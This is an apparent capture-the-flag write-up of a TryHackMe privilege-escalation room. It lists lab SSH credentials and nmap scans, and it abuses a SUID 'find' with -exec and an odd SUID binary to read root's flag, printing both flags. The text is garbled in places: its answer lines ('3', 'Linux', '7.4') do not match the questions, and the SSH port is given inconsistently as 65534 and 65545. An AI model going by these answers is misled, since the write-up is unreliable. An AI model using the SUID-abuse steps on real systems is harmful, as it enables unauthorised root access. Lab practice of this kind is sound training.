

## Introduction

> Elf Holly is suspicious of Elf-ministrator and wants to get onto the root account of a server he setup to see what files are on his account. The problem is, Holly is a low-privileged user.. can you escalate her privileges and hack your way into the root account?

> Deploy and SSH into the machine.  
> Username: holly  
> Password: tuD@4vt0G*TU

> SSH is not running on the standard port.. You might need to nmap scan the machine to find which port SSH is running on.  
> `nmap <machine_ip> -p <start_port>-<end_port>`

> [Read the supporting materials here](./Supporting_Doc.html).

## Questions

> 1) What port is SSH running on?

td:lr Answer: **3**

> 2) Find and run a file as igor. Read the file /home/igor/flag1.txt

td:lr Answer: **Linux**

> 3) Find another binary file that has the SUID bit set. Using this file, can you become the root user and read the /root/flag2.txt file?

td:lr Answer: **7.4**

> 4) If you've finished the challenge and want more practise, checkout the Privilege Escalation Playground room created by SherlockSec: https://tryhackme.com/room/privescplayground 

No answer needed.

===============================================================================

First let's deploy the machine and get ourselves VPN-ed into the THM network.  
once the machine is deployed, we need to do a full nmap for all TCP ports:

`nmap <ip> -T4 -p-` - will reveal open ports 22, 111, 999

We will find the SSH port: **65534**

SSH into the machine at port 65545:
`ssh holly@<ip> -p 65534` - password: `tuD@4vt0G*TU`

We need to read flag1.txt found in igor's directory. So let's look for commands that can be executed by user _igor_.

`find / -user igor -perm -4000 -print 2>/dev/null`  
We get 2 commands that will run as _igor_: _find_ and _nmap_  
So we can use find to execute reading the contents of _flag1.txt_:

`find ../ -name flag1.txt -exec cat /home/igor/flag1.txt \; 2>/dev/null`
We will get our answer: **THM{d3f0708bdd9accda7f937d013eaf2cd8}**

We need to find a SUID command that can let us look at /root/flag2.txt as root user:  
`find / -user root -perm -4000 -print 2>/dev/null`  
We find an uncommon binary file --> `usr/bin/system-control`  
We can run it and see what happens:

`usr/bin/system-control`  
`cat /root/flag2.txt`

We successfully got the flag2: **THM{8c8211826239d849fa8d6df03749c3a2}**

